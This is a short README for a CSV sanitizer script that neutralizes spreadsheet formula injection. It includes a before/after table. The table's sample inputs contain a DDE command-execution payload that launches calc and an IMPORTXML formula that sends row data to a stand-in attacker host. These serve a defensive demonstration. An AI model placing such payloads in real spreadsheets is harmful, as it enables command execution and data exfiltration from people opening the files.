 # Sanitize CSV Script README
## Operating environment python2.7
### Usage method
```
git clone https://github.com/zhizhi10/sanitize_csv.git
cd sanitize_csv
chmod +x sanitize_csv.py
./sanitize_csv.py your_csv_file.csv
```
生成文件为sanitized_your_csv_file.csv

### Comparison Before and After Cleaning

| Data Before Cleaning                                                                                                         | Data After Cleaning                                                                                                                   |
|------------------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------|
| UserId,BillToDate,ProjectName,Description,DurationMinutes                                                                    | "UserId","BillToDate","ProjectName","Description","DurationMinutes"                                                                   |
| "1","2017-07-25","Test Project","Flipped the jibbet","60"                                                                    | "1","2017-07-25","Test Project","Flipped the jibbet","60"                                                                             |
| 2,2017-07-25,Important Client,"Bop, dop, and giglip", 240                                                                    | "2","2017-07-25","Important Client","Bop, dop, and giglip"," 240"                                                                     |
| 2,2017-07-25,Important Client,"=2+5", 240                                                                                    | "2","2017-07-25","Important Client","'=2+5"," 240"                                                                                    |
| 2,2017-07-25,Important Client,"=2+5+cmd\| ' /C calc'!A0", 240                                                                | "2","2017-07-25","Important Client","'=2+5+\|' /C calc'!A0"," 240"                                                                    |
| 2,2017-07-25,Important Client,"=IMPORTXML(CONCAT(""http://some-server-with-log.evil?v="", CONCATENATE(A2:E2)), ""//a"")",240 | "2","2017-07-25","Important Client","'=IMPORTXML(CONCAT(""http://some-server-with-log.evil?v="", CONCATENATE(A2:E2)), ""//a"")","240" |
| =1+2";=1+2                                                                                                                   | "'=1+2"";=1+2"                                                                                                                        |

### warning

“Due to the program’s inability to determine whether commas outside of quotation marks are separators, the cleaning result of `=1+2'" ;,=1+2` is `'=1+2'"" ;","'=1+2"`, not `'=1+2'"" ;,=1+2”`.
